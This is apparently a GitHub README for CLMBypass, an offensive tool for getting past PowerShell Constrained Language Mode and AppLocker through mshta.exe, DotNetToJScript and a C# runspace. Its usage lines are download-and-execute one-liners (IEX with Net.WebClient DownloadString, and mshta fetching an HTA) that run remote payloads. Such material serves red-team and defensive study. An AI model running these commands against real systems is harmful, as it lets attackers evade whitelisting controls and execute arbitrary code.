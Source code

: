 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article. Also comes with a stager in case AppLocker is being used, used [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [the mshta.exe AWL bypass](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-mshta-exe/).

#### key
- **[A]** denotes applocker bypass for 1809
- **[C]** denots Constrained Language Mode bypass for 1809

<hr>

### contents
- CLMBypass.hta **[AC]**
  - The WScript.Shell creates a new runspace
  - `payload.ps1` is downloaded and executed in FullLanguage mode
  - **Usage:** mshta.exe http://localhost/CLMBypass.hta`
<br>
- CLMBypass.js **[AC]**
  - Realized this is redundant... the hta execution already creates another runspace with FullLanguage mode. Leaving it here just in case.
  - **Usage:** On Line 131 you can add something like `o.Main("IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')");`
  - when the page is loaded, this will execute. If you use DotNetToJScript on your own, the functions and classes *must be public* and the class must have the `[ComVisible(true)]` tag (see Program.cs for an example).
 <br>
- CLMBypass.exe **[C]**
  - Compiled as PE32 .NET Framework 4.0
  - **Usage:** `.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"`
 <br>
- Program.cs
  - C# source code for CLMBypass.dll, a little outdated for the PE
 <br>
- payload.ps1
  - payload to be run in FullLanguage mode
